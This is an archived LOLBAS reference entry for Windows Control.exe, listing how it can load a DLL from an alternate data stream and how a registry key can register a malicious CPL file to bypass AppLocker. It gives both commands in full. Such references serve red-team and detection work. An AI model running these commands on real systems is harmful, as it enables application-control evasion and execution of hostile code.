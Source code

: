 # UPDATE BOOKMARKS - PROJECT MOVED TO A DEDICATED PROJECT SITE. THIS SITE WILL NOT BE UPDATED ANYMORE, BUT WILL BE KEPT FOR HISTORICAL REASONS.
New site: https://github.com/LOLBAS-Project/LOLBAS
Web portal: https://lolbas-project.github.io/ 
## Control.exe

* Functions: Execute, Read ADS

```
control.exe c:\windows\tasks\file.txt:evil.dll
```

Acknowledgements:
* Jimmy - @bohops

Code sample:
* 

Resources:
* https://pentestlab.blog/2017/05/24/applocker-bypass-control-panel/
* https://www.contextis.com/resources/blog/applocker-bypass-registry-key-manipulation/
* https://bohops.com/2018/01/23/loading-alternate-data-stream-ads-dll-cpl-binaries-to-bypass-applocker/
* https://twitter.com/bohops/status/955659561008017409

Full path:
```
C:\Windows\system32\control.exe    
C:\Windows\sysWOW64\control.exe     
```

Notes:
Add registry in HKCU\Software\Microsoft\Windows\currentversion\controlpanel\CPLS to manipulate.
```
reg add "HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Control Panel\Cpls"
/v EvilCPL.cpl /t REG_SZ /d "C:\Folder\EvilCPL.cpl"
```

 